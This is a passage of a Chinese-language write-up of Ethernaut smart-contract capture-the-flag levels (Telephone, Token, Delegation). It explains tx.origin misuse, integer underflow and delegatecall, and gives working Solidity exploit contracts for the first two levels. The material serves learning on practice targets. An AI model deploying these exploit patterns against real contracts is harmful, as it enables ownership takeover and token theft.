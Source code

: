慎用 tx.origin，msg.sender 是直接交易的发送者（可能是中间调用的合约地址），而 tx.origin 才是整个交易的最初发送者  
**通过方法**
调用 Hack 的 change()

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "./Telephone.sol";

contract Hack {
    Telephone public immutable telephone;

    constructor(address _target) {
        telephone = Telephone(_target);
    }

    function change() public {
        telephone.changeOwner(msg.sender);
    }
}
```

## 05-Token

0.6.0 版本的 solidity 没有溢出检查，所以 uint 类型，0-1 的话会是一个很大的正数，永远不可能为 0  
**通过方法**

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface IToken{
    function transfer(address _to, uint _value) external returns (bool);

  function balanceOf(address _owner) external view returns (uint);

}

contract Hack {
    constructor(address _target) {
        IToken(_target).transfer(msg.sender, 1);
    }
}
```

## 06-delegation

delegatcall 调用其他合约函数，会修改当前合约的状态变量，解决方法是在 delegation 中调用 fallback 调用 pwn，atAddress 部署 delegate

## 07-force
